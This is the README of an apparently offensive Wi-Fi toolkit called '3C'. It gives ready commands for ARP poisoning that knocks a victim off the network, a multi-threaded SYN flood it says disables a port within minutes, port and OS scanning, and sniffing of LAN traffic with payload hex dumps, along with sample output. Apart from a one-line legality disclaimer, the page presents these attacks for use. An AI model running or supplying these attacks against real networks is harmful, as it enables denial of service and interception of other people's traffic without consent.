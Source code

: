 
<img src="https://github.com/PyDever/AirCat/blob/master/img/3c%20(1).png" width="250">

 [![Build status](https://ci.appveyor.com/api/projects/status/pjxh5g91jpbh7t84?svg=true)](https://ci.appveyor.com/project/tygerbytes/resourcefitness) 
[![Coveralls](https://coveralls.io/repos/github/tygerbytes/ResourceFitness/badge.svg?branch=master)](https://coveralls.io/github/tygerbytes/ResourceFitness?branch=master) 
[![License](https://img.shields.io/badge/License-BSD%202--Clause-orange.svg)](https://opensource.org/licenses/BSD-2-Clause)
<br>

***All included scripts are illegal to run without permission of target.***

3C gives you an arsenal of Wi-Fi tools to perform DoS, ARP poisons, and more. 
```
$ python scan -r <IP range>
```
```
$ python poison -t <victim IP> -m <victim MAC>
```
<hr>

### (v2.0 update)

***New feature!***
3C can now perform SYN flood DoS attacks.
```
$ python flood -t <victim IP> -p <port> -l <payload>
```
It will take out a port in about 3-5 minutes.

### (v2.1 update)

***New feature!*** 
3C can now perform Nmap-esk port/OS scans.
```
$ python map -t <victim IP> -p <port range>
```
Port range should look like `0-80` or maybe `22-1024`.
Here is a scan I did on my home router:
```
Starting scan on 192.168.200.1 at 2018-11-06 11:09:27.232626 
Scan completed at 2018-11-06 11:12:37.628803
PORT  STATE  SERVICE
80    open   http
443    open   https
OS scan: Linux/UNIX/BSD
Rev. DNS: gateway.ht.net
```

***New feature!***
`flood` is now multi-threaded. Refer to v2.0 update
for details on how to use it.

### (v3.0 update) ###

***New feature!***
3C can now perform detailed packet sniffs on local area network traffic.
```
$ python watch -f <protocol> -n <count> --dump <hex?>
```
the `--dump` or `-d` flag should be set to `1` if you wish to view
the data in the packet if any, or `0` if not. 
```
2018-11-13 09:30:20.153000    Ether / IP / TCP 52.184.193.103:https > 10.193.124.129:49819 PA / Raw
2018-11-13 09:30:20.372000    Ether / IP / TCP 10.193.124.129:49819 > 52.184.193.103:https A
2018-11-13 09:30:20.591000    Ether / IP / TCP 52.167.231.222:5280 > 10.193.124.129:50043 PA / Raw
2018-11-13 09:30:20.591000    Ether / IP / TCP 10.193.124.129:50043 > 52.167.231.222:5280 A
2018-11-13 09:30:20.919000    Ether / IP / TCP 52.167.231.222:5280 > 10.193.124.129:50043 PA / Raw
```
If you will notice, on the left hand side of the report, there is a very 
specific time stamp. Time stamps are often vital in traffic analysis.
If you enabled the dumping option, you might see something like this in between
the packts. It is a hexadecimal dumping of the payload layer.
```
0000  17030301582A3E7E6539F8CBFFC26597 ....X*>~e9....e.
0010  A8E9AE26611205C0DC88076B1990EFDD ...&a......k....
0020  9A6C780F03B6DA2682BE918E3160CC40 .lx....&....1`.@
0030  97FDDC66F834DBF38F7EACDC831D793F ...f.4...~....y?
0040  495B9C53F79CA4179DAC6BC51EAAC04C I[.S......k....L
0050  0D64ACCF19E4C18C3FC8829157986E39 .d......?...W.n9
0060  A8ACAE77F91CC4E8101B3ACDA25ECCFC ...w......:..^..
0070  AB7B5AE5C76FDF877FB8BEEEDDA51B3E .{Z..o.........>
0080  6962D931719488EF6502B583B393370B ib.1q...e.....7.
0090  AA0D4D89F853D79F9B07068F308A9129 ..M..S......0..)
00a0  CD1D152ECAFCF247B0EBBCC62BC55B55 .......G....+.[U
00b0  E3439D54DB3A724D66EC8EA74297510C .C.T.:rMf...B.Q.
00c0  9BC143D21ECDC44645A9B6A99685A769 ..C....FE......i
00d0  6574764C0780F3023C4EA6103CFE8290 etvL....<N..<...
00e0  A9E59046B9CA85AABD4E12691229D4B7 ...F.....N.i.)..
00f0  1E452403276414A8555472EA215EA80F .E$.'d..UTr.!^..
0100  FD55BB1B4808DEF38F2594E24E369E19 .U..H....%..N6..
0110  0383989DE9966FF13328CDCD7A404855 ......o.3(..z@HU
0120  CFA3AD3929F595605FC48A4489C2C02A ...9)..`_..D...*
0130  6398CECB8B2F419D9A66BC2D9DA435FB c..../A..f.-..5.
0140  459250622FCA0DC9B791532C8095D8DA E.Pb/.....S,....
0150  717FE2883B75145A02BFC61B21       q...;u.Z....!
```

## Installation 
Make sure to have `scapy` fully installed and tested.
```
$ git clone <this repo>
```

### ARP Poison Explanation
3C injects your access point with venomous ARP packets that kick the victim offline. 
```
                         (no connection)
You -----[3C_pkt]-----> AP -----X-----> victim
```

